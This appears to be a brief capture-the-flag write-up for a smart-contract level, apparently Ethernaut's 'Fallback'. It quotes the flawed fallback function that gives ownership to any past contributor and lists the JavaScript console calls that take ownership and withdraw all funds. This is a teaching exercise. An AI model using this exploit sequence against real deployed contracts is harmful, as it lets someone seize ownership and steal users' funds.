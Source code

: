 -The fallback() function contained the lined

`if (contributions[msg.sender] > 0) {
    owner = msg.sender;
}
`

-Understood that if we send ether directly to the contract and we already have a contribution, we can become the owner

`
await contract.contribute.sendTransaction({ from: player, value: 1 });
`

-Once we have become the owner, call the withdraw() function and take out all the funds

`
await contract.sendTransaction({ from: player, value: 1 });
`

- Verfied the ownership by
  
`
await contract.owner();
`

- After ownership verification, we can withdraw

`
await contract.withdraw();
`

-Completed the level by submitting the instance
